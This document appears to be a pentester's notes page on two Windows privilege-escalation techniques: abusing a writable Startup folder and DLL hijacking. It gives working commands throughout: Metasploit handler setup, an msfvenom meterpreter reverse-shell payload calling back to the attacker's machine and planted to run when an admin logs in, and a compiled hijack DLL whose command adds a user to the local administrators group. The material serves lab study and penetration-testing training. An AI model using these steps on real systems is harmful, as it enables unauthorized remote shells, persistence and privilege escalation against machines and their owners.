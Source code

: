 ## Startup Applications

### What is it

- We will abuse a program that is launched on startup in which we have rights

### Enumeration

- We can enumerate using [Windows internals - icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) `icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`  
![image](https://user-images.githubusercontent.com/96747355/162592396-a2979aa4-f502-4455-b2ca-2b7997b1763c.png)  
- The `BUILTIN/Users` group has full acces `(F)` to the Startup directory

### How to exploit

- In our attack machine `msfconsole` we launch Metasploit
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set lhost IP-OF-OUR-ATTACK-MACHINE`
- `run`
- In another tab `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP-OF-OUR-ATTACK-MACHINE -f exe -o x.exe`
- We serve the executable in our target (python http server -> and browse to it from our target)
- We put the file in  "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" (If you are in the explorer you may have to type ProgramData in the path if it does not appear).
- We wait for an admin to log in
- We should have a shell in metasploit  
![image](https://user-images.githubusercontent.com/96747355/162592807-7867e7e1-62f9-4cca-89b9-78ed895ee09c.png)  

## DLL Hijacking

### What is it

- DLL is a dynamic Library they often run with executables, when an executable runs the system will look for the dll and if the dll does not exist we could replace it with one of our own.

### Enumeration

- We can find it using procmon, we need to add 2 filters "Result is NAME NOT FOUND" and "PATH ends with .dll"  
![image](https://user-images.githubusercontent.com/96747355/162593986-a50865dc-11eb-44ef-8793-60bbdd2adaa1.png)  
  - This will list the dll not found
  - We will need write access to the folder where the dll are missing

### How to exploit

- We are going to use [windows_dll.c](https://github.com/sagishahar/scripts/blob/master/windows_dll.c)
- Edit the file and modify the system command to add our user to the admin goup which would look like this: `system("cmd.exe /k net localgroup administrators user /add");`
- We can now compile it `x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll`
- We serve it to our target (python http server -> browser of our target)
- We put it in the path where the system will look for it, in our example it is the temp folder
- We restart the service `sc stop dllsvc & sc start dllsvc`
- Our user should be in the admin group now
